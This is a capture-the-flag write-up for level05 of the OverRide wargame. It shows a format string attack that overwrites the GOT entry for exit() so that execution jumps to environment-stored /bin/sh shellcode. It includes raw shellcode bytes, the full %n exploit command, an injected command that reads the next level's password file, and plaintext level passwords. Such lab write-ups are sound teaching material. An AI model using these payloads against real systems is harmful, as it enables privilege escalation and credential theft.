 # Format string attack / overwrite GOT / ret2shellcode

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer.

But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.

FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Input recognizable characters to determine how far away input is layed on the stack.

> Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).

```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```

Export [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into environment variables and  retrieve the address where it is lay.

Devide the address per byte  and calculate for each number of characters that need to be printen by `%x` and written by `%n`.
```
0xffffdedb
0xdb -> 0x0db-16 = 203
0xde -> 0x1de-16-203 = 259
0xff -> 0x1ff-16-259-203 = 33
0xff -> 0x2ff-16-259-203-33 = 256
```

## Exploit
```shell
level05@OverRide:~$ export SHELL_CODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:~$ ./getenv SHELL_CODE
SHELL_CODE at 0xffffdedb
level05@OverRide:~$ (python -c 'import struct; print(struct.pack("I", 0x080497e0) + struct.pack("I", 0x080497e1) + struct.pack("I", 0x080497e2) + struct.pack("I", 0x080497e3) + "%203x%10$n" + "%259x%11$n" + "%33x%12$n" + "%256x%13$n")'; echo 'id; cat /home/users/$(whoami)/.pass') | ./level05
                                                                                                                                                                                                         64                                                                                                                                                                                                                                                           f7fcfac0                         f7ec3af9                                                                                                                                                                                                                                                        ffffd65f
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## Addendum
```c
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char *av[])
{
  printf("%s at %p\n", av[1], getenv(av[1]));
}
```
